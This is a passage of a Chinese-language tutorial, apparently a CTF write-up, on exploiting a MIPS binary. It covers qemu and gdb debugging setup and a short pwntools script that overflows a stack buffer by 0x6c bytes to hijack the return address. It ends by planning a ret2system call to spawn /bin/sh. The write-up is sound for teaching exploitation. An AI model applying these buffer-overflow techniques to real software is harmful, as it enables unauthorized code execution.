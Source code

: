 offset = 0x84 - 0x18 =0x6c

# 调试程序
使用qemu 启动程序 

/usr/bin/qemu-mips-static ./mips

也可以使用qemu 指定调试端口

```
/usr/bin/qemu-mips-static -g 1234 ./mips
```
gdbsc脚本

```
set endian big
set arch mips
target remote 127.0.0.1:1234
```
启动gdb调试 

```
gdb-multiarch -x ./gdbsc
b *0x0400474
```
# 漏洞利用
使用pwntools 编写exp 和往常有些不同，process启动程序要带上qemu的参数 

exp.py 

```
from pwn import *
context.update(os="linux",bits = "32",arch="mips",endian="big",terminal=["tmux","splitw","-h"])
p = process(["/usr/bin/qemu-mips-static","-g","1234 ","./mips"])
fun = 0x400420
p1 = "A"*0x6c+p32(fun)
p.sendline(p1)
```
p.interactive()


![图片](https://raw.githubusercontent.com/pwnkk/pwnkk.github.io/master/_posts/IMG/MIPS101/QDZgwAc9bBEsh7wb.png)

运行结果

# level 1 构造参数
之前劫持返回地址到fun函数，但是不能获得shell 。这次尝试直接调用system 函数，并让参数为/bin/sh . mips 参数在a0 寄存器中，因此需要查找gadget 设置a0寄存器 为 /bin/sh 地址。
